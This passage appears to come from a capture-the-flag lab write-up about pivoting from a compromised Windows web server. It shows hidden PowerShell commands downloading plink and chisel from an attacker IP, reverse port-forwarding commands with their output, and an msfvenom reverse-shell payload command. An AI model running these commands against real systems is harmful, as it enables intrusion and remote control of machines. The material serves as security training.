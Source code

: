 
Using Plink we can tunnel the ports so that we can access them from our kali machine.

```
powershell -w hidden -noni -nop -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.45/plink.exe','C:\Users\public\plink.exe')"
```

Port Forward with plink.exe:
```
cmd.exe /c echo y | .\plink.exe -ssh -l kali -pw <your_kali_password> -R 10.10.14.45:8888:127.0.0.1:8888 10.10.14.45

```
However I ran into issues with SSH cipher algorithm negotiation and did not wish to troubleshoot that at the time.

There is another great tool for tunneling and port forwarding in windows:
https://github.com/jpillora/chisel

Server (attacker): 
```
root@kali:/opt/chisel# ./chisel server --port 8000 --reverse                                               
```

Client (victim):
```
powershell -w hidden -noni -nop -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.45/chisel.exe','C:\Users\public\chisel.exe')"

```

```
C:\xampp\htdocs\gym\upload> C:\Users\public\chisel.exe client 10.10.14.45:8000 R:8888:127.0.0.1:8888 
�PNG
▒
2020/08/24 04:26:47 client: Connecting to ws://10.10.14.45:8000
2020/08/24 04:26:47 client: Fingerprint b2:50:1f:ea:c2:3a:88:29:dd:b6:69:17:1d:57:89:cb
2020/08/24 04:26:48 client: server: server: proxy#1:R:0.0.0.0:8888=>127.0.0.1:8888: listen tcp4 0.0.0.0:8888: bind: address already in use

C:\xampp\htdocs\gym\upload> C:\Users\public\chisel.exe client 10.10.14.45:8000 R:888:127.0.0.1:8888 

```

Downloading the exploit script and replacing the calc.exe shellcode with a reverse shell payload that we generate using msfvenom:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.45 LPORT=4444 EXITFUNC=thread -e x86/shikata_ga_nai -b "\x00\x0a\x0d" -f python
```

48389.py:
